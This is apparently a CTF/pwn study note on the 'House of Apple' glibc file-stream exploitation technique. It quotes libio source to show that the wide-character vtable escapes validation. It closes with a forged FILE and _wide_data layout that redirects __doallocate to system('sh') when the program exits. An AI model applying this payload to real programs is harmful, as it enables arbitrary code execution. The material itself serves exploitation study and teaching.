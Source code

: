 ```yaml
---
title: House of Apple
date: 2023-12-04 23:13:54
tags:
    - pwn
    - fsop
---
```


Original article: <https://www.roderickchan.cn/zh-cn/house-of-apple-一种新的glibc中io攻击方法-1/>

Requirements:
1. can call `exit` or return from `main`
2. heap_base and libc_base
3. single largebin chunk

# Overview

In glibc, jumps from vtables are made via these macros:

```c
// example jump macro with 1 extra argument
#define JUMP1(FUNC, THIS, X1) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)
#define WJUMP1(FUNC, THIS, X1) (_IO_WIDE_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)

#define _IO_JUMPS_FUNC(THIS) (IO_validate_vtable(_IO_JUMPS_FILE_plus (THIS) + (THIS)->_vtable_offset) )
#define _IO_WIDE_JUMPS_FUNC(THIS) _IO_WIDE_JUMPS(THIS)

#define _IO_JUMPS_FILE_plus(THIS) _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE_plus, vtable)
#define _IO_WIDE_JUMPS(THIS) _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE, _wide_data)->_wide_vtable
```

The macros for `WXXX` are not protected by `IO_validate_vtable`, so we can use
this to call arbitrary function. These macros are used in functions of
`_IO_wfile_jumps` vtable:

```c
const struct _IO_jump_t _IO_wfile_jumps libio_vtable =
{
  JUMP_INIT_DUMMY,
  JUMP_INIT(finish, _IO_new_file_finish),
  JUMP_INIT(overflow, (_IO_overflow_t) _IO_wfile_overflow),
  JUMP_INIT(underflow, (_IO_underflow_t) _IO_wfile_underflow),
  JUMP_INIT(uflow, (_IO_underflow_t) _IO_wdefault_uflow),
  JUMP_INIT(pbackfail, (_IO_pbackfail_t) _IO_wdefault_pbackfail),
  JUMP_INIT(xsputn, _IO_wfile_xsputn),
  JUMP_INIT(xsgetn, _IO_file_xsgetn),
  JUMP_INIT(seekoff, _IO_wfile_seekoff),
  JUMP_INIT(seekpos, _IO_default_seekpos),
  JUMP_INIT(setbuf, _IO_new_file_setbuf),
  JUMP_INIT(sync, (_IO_sync_t) _IO_wfile_sync),
  JUMP_INIT(doallocate, _IO_wfile_doallocate),
  JUMP_INIT(read, _IO_file_read),
  JUMP_INIT(write, _IO_new_file_write),
  JUMP_INIT(seek, _IO_file_seek),
  JUMP_INIT(close, _IO_file_close),
  JUMP_INIT(stat, _IO_file_stat),
  JUMP_INIT(showmanyc, _IO_default_showmanyc),
  JUMP_INIT(imbue, _IO_default_imbue)
};
```

The struct of `f->_wide_data` is

```c
/* Extra data for wide character streams.  */
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;
  wchar_t *_IO_read_end;
  wchar_t *_IO_read_base;
  wchar_t *_IO_write_base; // 0x18
  wchar_t *_IO_write_ptr;
  wchar_t *_IO_write_end;
  wchar_t *_IO_buf_base; // 0x30
  wchar_t *_IO_buf_end;	
  wchar_t *_IO_save_base;
  wchar_t *_IO_backup_base;
  wchar_t *_IO_save_end;
  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;
  wchar_t _shortbuf[1];
  const struct _IO_jump_t *_wide_vtable; // 0xe0
};
```

It's quite similar to FILE, but vtable is at 0xe0.

## _IO_wfile_overflow

### Analysis

When `exit` is called, the FILE cleanup call stack is `fcloseall -> _IO_cleanup -> _IO_flush_all_lockp`.

```c
int _IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  FILE *fp;

#ifdef _IO_MTSAFE_IO
  _IO_cleanup_region_start_noarg (flush_cleanup);
  _IO_lock_lock (list_all_lock);
#endif

  for (fp = (FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)
    {
      run_fp = fp;
      if (do_lock)
	_IO_flockfile (fp);

      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF) // <--- overflow call
	result = EOF;

      if (do_lock)
	_IO_funlockfile (fp);
      run_fp = NULL;
    }

#ifdef _IO_MTSAFE_IO
  _IO_lock_unlock (list_all_lock);
  _IO_cleanup_region_end (0);
#endif

  return result;
}

// definition of _IO_OVERFLOW
typedef int (*_IO_overflow_t) (FILE *, int);
#define _IO_OVERFLOW(FP, CH) JUMP1 (__overflow, FP, CH)
#define _IO_WOVERFLOW(FP, CH) WJUMP1 (__overflow, FP, CH)
```

So for each FILE in `_IO_list_all`, its `vtable->__overflow` is called when the below requirements are satisfied:

1. `fp->_mode == 0`
2. `fp->_IO_write_ptr > fp->_IO_write_base`

We can set our victim FILE (`stderr`) to point to this vtable. On exit, it will call the
overflow function, `_IO_wfile_overflow`, which is defined as:

```c
wint_t _IO_wfile_overflow (FILE *f, wint_t wch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
    {
      /* Allocate a buffer if needed. */
      if (f->_wide_data->_IO_write_base == 0)
	{
	  _IO_wdoallocbuf (f); // <-- call to _IO_wdallocbuf macro
	  _IO_free_wbackup_area (f);
	  _IO_wsetg (f, f->_wide_data->_IO_buf_base,
		     f->_wide_data->_IO_buf_base, f->_wide_data->_IO_buf_base);

	  if (f->_IO_write_base == NULL)
	    {
	      _IO_doallocbuf (f);
	      _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
	    }
    // ...
    }
}

void _IO_wdoallocbuf (_IO_FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)
      return;
  _IO_wsetb (fp, fp->_wide_data->_shortbuf,
		     fp->_wide_data->_shortbuf + 1, 0);
}

#define _IO_WDOALLOCATE(FP) WJUMP0 (__doallocate, FP)
#define WJUMP0(FUNC, THIS) (_IO_WIDE_JUMPS_FUNC(THIS)->FUNC) (THIS)
```

The `_IO_wfile_overflow` function calls `_IO_wdoallocbuf`, which then calls
`__doallocate` of the `_wide_vtable`, passing the FILE struct as the first
argument. As mentioned, the `_wide_vtable` performs no checks so we can point
this to system.

So our call stack looks like this:

```
_IO_wfile_overflow -> _IO_wdoallocbuf -> _IO_WDOALLOCATE -> _wide_data._wide_vtable.__doallocate
```

Analyzing each of the functions, we need to satisfy:
1. `f->flags == ~(0x8 | 0x800 | 0x2)` (unset `_IO_NO_WRITES`, `_IO_CURRENTLY_PUTTING` and `_IO_UNBUFFERED`)
2. `f->_wide_data->_IO_write_base == 0`
2. `f->_wide_data->_IO_buf_base == 0`

Then our desired function goes into `__doallocate (_wide_vtable+0x68)`, and rdi goes into `flags`.

### Payload

With the above conditions satisfied, our FILE struct will look like this:

```c
// FILE
f->_flags = "  sh";
f->write_base = 0; // +0x20
f->write_ptr = 1; // +0x28
f->_wide_data = ; // <ptr to forged wide_data struct> at +0xa0
f->_mode = 0; // +0xc0 (note: pwntools FILE struct doesn't have this, but can leave as blank cos default is likely 0)
f->vtable = &_IO_wfile_jumps; // +0xd8

// _wide_data (can forge in heap etc)
_wide_data->_IO_write_base = 0; // +0x18
_wide_data->_IO_buf_base = 0; // +0x30
_wide_data->_wide_vtable = *(&(system) - 0x68); // <ptr to (system - 0x68)> at +0xe0
```

There are a few more gadget chains using `_IO_wfile_underflow_mmap`,
`_IO_wdefault_xgetn`, `_IO_wfile_underflow`, `_IO_wdo_write` and
`_IO_wfile_sync` which I will put here once I analyze them.
